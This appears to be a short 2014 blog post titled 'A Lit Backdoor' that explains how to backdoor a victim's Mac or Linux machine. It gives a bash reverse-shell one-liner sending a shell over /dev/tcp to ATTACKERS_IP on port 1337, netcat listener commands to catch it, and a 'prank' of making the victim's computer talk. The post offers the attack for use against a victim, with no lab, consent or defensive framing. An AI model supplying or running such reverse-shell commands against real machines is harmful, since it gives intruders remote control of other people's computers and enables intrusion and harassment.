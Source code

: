 Title: A Lit Backdoor
Date: 2014-06-21 2:00
Category: Exploitation
Tags: Reverse_shell netcat

I was never a big fan of Macbooks. Being a penguin user for so long, you learn to stop worrying and love love the bomb. But here is a little trick that works for both.

In the victim's machine (presumably a macbook), create the reverse shell in the port 1337:

```bash
$ sh -i >& /dev/tcp/ATTACKERS_IP/1337 0>&1
```

Now just netcat to it. From a Linux machine:

```bash
$ nc -l -p 1337
```

Or from a Macbook:
```bash
$ nc -l 1337
```

You should get shell. A cute prank is making the victim's computer talk:

```bash
$ say Hacked
```

:)

